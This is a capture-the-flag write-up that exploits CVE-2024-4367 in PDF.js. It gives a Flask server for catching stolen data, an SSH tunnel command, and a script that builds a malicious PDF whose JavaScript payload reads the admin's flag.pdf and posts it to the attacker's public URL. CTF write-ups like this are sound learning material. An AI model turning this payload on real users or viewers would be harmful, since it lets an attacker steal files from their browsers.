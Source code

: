# 1753 CTF - Do Not Cheat

My teammate found this challenge is vulnerable to [CVE-2024-4367](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-4367), and the PoC script can be found [here](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

> A type check was missing when handling fonts in PDF.js, which would allow arbitrary JavaScript execution in the PDF.js context. This vulnerability affects Firefox &lt; 126, Firefox ESR &lt; 115.11, and Thunderbird &lt; 115.11.

So the basic roadmap is: we host a malicious PDF file and report the URL to admin, when the admin bot visits this URL, the JavaScript code will be executed and we can open `/app/admin/flag.pdf`, then send the content to our server.

However, when we tried to host the PoC PDF document, my teammate's server failed on SSL handshake, and I used to use Ngrok to tunnel my local service to the internet, but since I’m on the free plan, Ngrok will show an interstitial page before redirecting to my local service. After some trials, I decided to use [serveo.net](https://serveo.net/). This allowed me to do the same thing without needing to install any additional dependencies (just SSH is required).

## Approach

So here's the full approach:

### Step 1

I start a local Flask server to host the PoC PDF document, and also to receive the content of `flag.pdf`.

```python
from flask import Flask, request, make_response, send_file

app = Flask(__name__)


@app.route("/pdf")
def serve_pdf():
    pdf_path = "poc.pdf"
    try:
        response = make_response(send_file(pdf_path, mimetype="application/pdf"))
        response.headers["Access-Control-Allow-Origin"] = "*"
        return response
    except FileNotFoundError:
        return {"error": "PDF not found"}, 404


@app.route("/flag", methods=["POST", "OPTIONS"])
def receive_flag():
    resp = make_response()
    if request.method == "OPTIONS":
        resp.headers["Access-Control-Allow-Origin"] = "*"
        resp.headers["Access-Control-Allow-Methods"] = "POST, OPTIONS"
        resp.headers["Access-Control-Allow-Headers"] = "Content-Type"
        return resp

    try:
        pdf_data = request.data
        with open("flag.pdf", "wb") as f:
            f.write(pdf_data)
    except Exception as error:
        print(error)
    finally:
        return resp


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5003)
```

Tips:

- Make sure to set the `Access-Control-Allow-Origin` header.
- Route `/flag` is for receiving the content of `flag.pdf`. Note that the challenge server will also send an `OPTIONS` request (and this is because we set `"Content-Type": "application/pdf"` in the XSS payload), so our Flask server needs to respond to it as well.  
  ![1.jpg](1.jpg)
- Use `host="0.0.0.0"` instead of `host="127.0.0.1"`, so that the service is accessible after tunneling to the internet. (Otherwise you may get a `403`.)

Then start the server:

```bash
python server.py
```

### Step 2

Run:

```
ssh -R 80:localhost:5003 serveo.net
```

And we will get something like:

```
Forwarding HTTP traffic from https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net
```

This is the public URL of our local service.

### Step 3

Now we generate malicious `poc.pdf` file. Download [`CVE-2024-4367.py`](https://github.com/LOURC0D3/CVE-2024-4367-PoC), create our `exp.py` as follows:

```python
import os

# ssh -R 80:localhost:5003 serveo.net
public_url = "https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net"

payload = f"""
fetch("/app/admin/flag.pdf")
.then(res => res.blob())
.then(blob =>
    fetch(
        "{public_url}/flag",
        {{
            method: "POST",
            body: blob,
            headers: {{"Content-Type": "application/pdf"}}
        }}
    )
)
"""

payload = payload.replace(" ", "").replace("\n", "")
print(payload)
os.system(f"python CVE-2024-4367.py '{payload}'")

print(f"Report to admin: https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document={public_url}/pdf")
```

Run the script:

```
python exp.py
```

And we will get something like:

```
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
Report to admin: https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net/pdf
```

### Step 4

Open the URL, wait a while, and we will get `flag.pdf`.

![2.jpg](2.jpg)

## Flag
```
1753c{m0zz4r3ll4_pdfjs_h4d_4_bug}
```
